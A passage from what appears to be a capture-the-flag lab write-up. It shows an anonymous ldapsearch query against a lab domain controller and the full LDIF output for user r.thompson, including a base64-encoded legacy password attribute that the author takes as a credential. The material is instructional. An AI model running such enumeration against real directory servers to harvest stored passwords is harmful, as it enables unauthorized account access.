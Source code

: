 Going through the ldapsearch output, we find password for the user "r.thompson"

```bash
ldapsearch -h 10.10.10.182 -x -b " CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local" '(objectclass=Person)'
# extended LDIF
#
# LDAPv3
# base < CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local> with scope subtree
# filter: (objectclass=Person)
# requesting: ALL
#

# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200723042657.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 319585
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132399520173820722
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```
